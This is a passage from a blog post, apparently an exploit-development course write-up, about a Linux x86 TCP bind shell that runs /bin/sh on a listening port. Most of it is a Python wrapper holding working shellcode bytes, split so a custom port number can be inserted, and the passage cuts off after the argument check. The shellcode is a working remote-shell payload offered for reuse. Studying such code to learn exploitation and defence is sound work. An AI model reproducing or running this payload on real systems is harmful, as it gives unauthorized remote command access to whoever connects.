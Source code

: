 And thats about it, we have a running shellcode executing /bin/sh on port 4444.
The only thing left is to make port configuration easy to use!

## Port configuration using python wrapper

I have written a python script which will come in handy when configuring our bind shell to different port than 4444.

The following image explains the whole proccess of running the shellcode on port 7777 (as example):

![7777bindshell](/images/7777bindshell.png)

The python code snippet is presented below:

```python
#!/usr/bin/python

# Bind Shell TCP python wrapper (port configuration
# Author:  Gal Nagli
# Blog: naglinagli.github.io


import socket
import sys

shell1 =  ""
shell1 += "\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x01\\x31\\xf6\\x56\\x53\\x6a\\x02\\x89\\xe1"
shell1 += "\\xcd\\x80\\x97\\x31\\xc0\\xb0\\x66\\x56\\x66\\x68"
shell2 = ""
shell2 += "\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xcd\\x80\\x31\\xc0\\x31"
shell2 += "\\xdb\\xb0\\x66\\xb3\\x04\\x56\\x57\\x89\\xe1\\xcd\\x80\\xb0\\x66\\xfe\\xc3\\x56"
shell2 += "\\x56\\x57\\x89\\xe1\\xcd\\x80\\x93\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd\\x80\\x49"
shell2 += "\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89"
shell2 += "\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"

if len(sys.argv) != 2:
	print "You must enter a port number."
```